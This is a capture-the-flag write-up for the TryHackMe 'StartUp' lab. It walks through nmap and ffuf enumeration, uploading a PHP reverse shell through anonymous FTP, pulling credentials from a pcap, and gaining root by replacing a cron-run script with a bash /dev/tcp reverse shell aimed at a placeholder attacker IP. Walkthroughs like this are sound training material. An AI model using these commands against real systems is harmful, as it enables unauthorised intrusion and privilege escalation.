









# 📝 Writeup – StartUp (TryHackMe)

---

## TL;DR
Anonymous FTP allowed write → website serves that FTP folder → uploaded a PHP reverse shell → got `www-data` → found a suspicious PCAP with creds → `su lennie` → discovered writable script run as root (`/etc/print.sh`) → replaced it with a reverse shell → root. Fast food pwn. 🍔💥

---

## ENUMERATION
Standard first move:

```bash
nmap -p- --min-rate 2000 -vv -T4 <IP>
````

Ports: `21, 22, 80`. Then a focused scan:

```bash
nmap -p21,22,80 -sC -sV -vv -oN scan.nmap <IP>
```

Screenshot:


---

### PORT 21 — FTP (anonymous)

Anonymous login is allowed. So yeah, we `ftp <IP>` as `anonymous` and poke around. Good news: we have **write access** to `/files/ftp`. That is a gift. 🎁

Screenshot (ftp):


Files on the server included `notice.txt` and `important.jpg` — nothing juicy at first glance, but remember: files can hide things. Always assume steg exists.

---

### PORT 80 — Web & dirbusting

Site looks like maintenance mode. Use fuzzing to find hidden dirs:

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://<IP>/FUZZ
```

Found `/files` — hey that’s our FTP folder being served. Uploading = trivial now. 😎

Screenshot (ffuf):


---

## EXPLOITATION — upload the shell

Downloaded Pentest Monkey PHP reverse shell, changed the attacker IP in the PHP, then uploaded it to the FTP folder:

```bash
# on attacker
# edit php-rev-shell.php and set LHOST/LPORT
# then upload via ftp:
put local/path/to/php-rev-shell.php php-rev-shell.php
```

Screenshot (upload):


Visit the uploaded PHP page in browser to trigger it (or hit via HTTP) while listener is up:

```bash
# start listener
nc -nvlp 4444

# then trigger the webshell by browsing to:
http://<IP>/files/ftp/php-rev-shell.php
```

Reverse shell -> `www-data` obtained.    
Screenshot:     


---

## Foothold -> find the first flag & the juicy PCAPNG

Browsing the site (or filesystem), I found a `recipe` dir with the first flag. There’s also a suspicious folder `incidents` with `suspicious.pcapng`. Since `/var/www/html/files/ftp` is writable, I moved the pcap there for easy download:

```bash
# on target (www-data)
mv /incidents/suspicious.pcapng /var/www/html/files/ftp/suspicious.pcapng
```
Screenshot:   
    

Then grabbed it locally and inspected: 

```bash
strings suspicious.pcapng | less
```

That dumped readable text including a password attempt for user `lennie`.     
Screenshot:    


---

## Privilege escalation — get `lennie`

We need a proper tty for `su`:

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
# then optionally:
stty raw -echo; fg
```

`su lennie` with the password from the pcap — logged in as `lennie`.

---

## `lennie` → root via writable script

In `lennie`’s home there’s `scripts/planner.sh` that calls `/etc/print.sh`. We can’t change `planner.sh` but we can write to `/etc/print.sh` (it’s writable). Now we need to see if it runs as root — for that I used `pspy64` to watch scheduled or background processes.

Transfer `pspy64` to the target (Python HTTP server + `curl`/`wget`) and run it. It showed that `print.sh` is run as root periodically. Screenshot:


So replace `/etc/print.sh` with a reverse shell that connects back to us as root. Example `print.sh` payload:

```bash
#!/bin/bash
bash -i >& /dev/tcp/<ATTACKER_IP>/4445 0>&1
```

Make it executable if needed and wait for the cron/job to run, or trigger it if possible. Listener:

```bash
nc -nvlp 4445
```

Reverse shell -> root.     
Screenshot:     


Grab user/root flags from `/home` and `/root`.

---

## Cleanup & notes

* Always rotate back any changed files if it’s a lab you care about, but in THM boxes it’s fine to leave as-is.
* If the web server doesn’t serve the FTP upload dir, consider SSRF/another vector — but here it did. Lucky us.
* Make sure your PHP shell has the correct `LHOST` before uploading. Rookie mistake: forgetting that and wondering why no shell. 😅

---

## Commands recap (quick)

```bash
# nmap
nmap -p- --min-rate 2000 -vv -T4 <IP>
nmap -p21,22,80 -sC -sV -vv -oN scan.nmap <IP>

# ffuf
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://<IP>/FUZZ

# ftp (upload)
ftp <IP>
# anonymous login then:
put php-rev-shell.php

# listener
nc -nvlp 4444

# get pcap and strings
strings suspicious.pcapng

# get tty
python3 -c "import pty; pty.spawn('/bin/bash')"
stty raw -echo; fg

# replace print.sh and listen for root shell
# craft reverse shell script and wait for connection
nc -nvlp 4445
```

---
